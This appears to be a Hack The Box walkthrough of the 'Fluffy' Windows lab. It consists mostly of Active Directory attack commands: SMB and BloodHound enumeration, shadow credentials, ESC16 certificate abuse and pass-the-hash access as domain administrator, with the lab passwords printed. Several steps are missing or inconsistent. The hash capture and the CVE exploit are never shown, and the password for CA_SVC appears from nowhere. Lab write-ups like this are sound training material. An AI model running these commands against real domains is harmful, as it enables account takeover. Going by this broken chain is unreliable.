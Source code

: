 ```yaml
---
title: Fluffy
categories: [HackTheBox]
tags: [Windows, easy, Active Directory, SMB, certificate abuse]
image: images/Fluffy/Fluffy.jpg
---
```


# HTB - Fluffy | Windows Easy Box Walkthrough

Welcome to the Hack The Box **Fluffy** walkthrough! This **easy Windows machine** challenges us with Active Directory misconfigurations, an SMB share exploit (CVE-2025-24071), and certificate abuse for privilege escalation. We’ll cover:
- Network and SMB enumeration
- Capturing NTLM hashes
- Leveraging **Shadow Credentials** for lateral movement
- Exploiting **ESC16** to impersonate the domain administrator

**Provided Credentials:**
```text
j.fleischman:J0elTHEM4n1990!
```

## 1. Initial Reconnaissance
>[!danger] 
>Don’t forget to add dc01.fluffy.htb to your /etc/hosts.

Add the domain controller to `/etc/hosts`:
```bash
echo "10.10.11.69 dc01.fluffy.htb" >> /etc/hosts
```

Scan for open ports and services:
```bash
nmap 10.10.11.69 -sC -sV -p- -T4 -oN nmap_scan.txt
```
**Output**: Ports 53, 88, 139, 389, 445, 464, 593, 636, 3268, 3269, 5985 (typical Domain Controller services).

## 2. SMB Enumeration
Enumerate SMB shares using provided credentials:
```bash
smbclient -L //10.10.11.69 -U j.fleischman%J0elTHEM4n1990!
```
**Note**: Check for writable shares or vulnerabilities related to CVE-2025-24071 (specific exploit details depend on the CVE).

## 3. BloodHound Enumeration
Collect Active Directory data:
```bash
# Option 1: Using bloodhound-python
bloodhound-python -u p.agila -p prometheusx-303 -d fluffy.htb -ns 10.10.11.69 -c All --zip

# Option 2: Using SharpHound (run on Windows or via Mono)
SharpHound.exe -c All -d fluffy.htb --ldapusername p.agila --ldappassword prometheusx-303 --domaincontroller 10.10.11.69
```

**BloodHound Analysis**:
In the BloodHound GUI, query “Shortest Paths to High-Value Targets” from `p.agila`:
- `p.agila` can be added to the `SERVICE ACCOUNTS` group.
- `SERVICE ACCOUNTS` has `GenericWrite` rights over `CA_SVC`.

**Troubleshooting**: Ensure DNS resolves `dc01.fluffy.htb` or use `10.10.11.69` for LDAP connectivity.

## 4. Adding p.agila to SERVICE ACCOUNTS
Add `p.agila` to the `SERVICE ACCOUNTS` group:
```bash
# Install bloodyAD: pip install bloodyAD
bloodyAD --host 10.10.11.69 -d fluffy.htb -u p.agila -p prometheusx-303 add groupMember 'SERVICE ACCOUNTS' p.agila

# Alternative (Windows attack machine):
net rpc group addmem "SERVICE ACCOUNTS" p.agila -S 10.10.11.69 -U fluffy.htb\p.agila%prometheusx-303
```

## 5. Shadow Credentials
Create a shadow credential for `WINRM_SVC`:
```bash
certipy-ad shadow -u p.agila@fluffy.htb -p prometheusx-303 -account WINRM_SVC -dc-ip 10.10.11.69
```

Authenticate with the generated `.pfx`:
```bash
certipy-ad auth -pfx WINRM_SVC.pfx -domain fluffy.htb -dc-ip 10.10.11.69
```

Find vulnerable certificate templates:
```bash
certipy-ad find -vulnerable -u CA_SVC@fluffy.htb -p <CA_SVC_password> -dc-ip 10.10.11.69
```
**Note**: Replace `<CA_SVC_password>` with the password obtained after gaining control of `CA_SVC`.

## 6. ESC16 Exploit
Change `CA_SVC`’s UPN to impersonate `administrator`:
```bash
# Option 1: Using Certipy
certipy-ad set-user-upn -u p.agila@fluffy.htb -p prometheusx-303 -dc-ip 10.10.11.69 -t CA_SVC -upn administrator@fluffy.htb

# Option 2: Using bloodyAD
bloodyAD --host 10.10.11.69 -d fluffy.htb -u p.agila -p prometheusx-303 set user userPrincipalName CA_SVC administrator@fluffy.htb
```

Request a certificate for `administrator`:
```bash
certipy-ad req -u CA_SVC@fluffy.htb -p <CA_SVC_password> -ca FLUFFY-CA -template UserAuthentication -target administrator@fluffy.htb -dc-ip 10.10.11.69
```

Authenticate and extract the NTLM hash:
```bash
certipy-ad auth -pfx administrator.pfx -domain fluffy.htb -dc-ip 10.10.11.69 -hashes
```

## 7. Gaining Administrator Access
Connect as `administrator` using the NTLM hash:
```bash
evil-winrm -i 10.10.11.69 -u administrator -H <NTLM_hash_from_certipy>
```

**Troubleshooting**:
- If Certipy fails, verify LDAP connectivity: `ldapsearch -x -h 10.10.11.69 -D "p.agila@fluffy.htb" -w prometheusx-303`.
- Ensure the `.pfx` file is accessible and not corrupted.
- If `evil-winrm` fails, try `crackmapexec` to validate the hash:
  ```bash
  crackmapexec winrm 10.10.11.69 -u administrator -H <NTLM_hash>
  ```

## Conclusion
This walkthrough demonstrates enumerating a Windows Domain Controller, exploiting AD misconfigurations, and abusing certificate templates to gain administrator access. Key tools include Nmap, BloodHound, Certipy, and evil-winrm.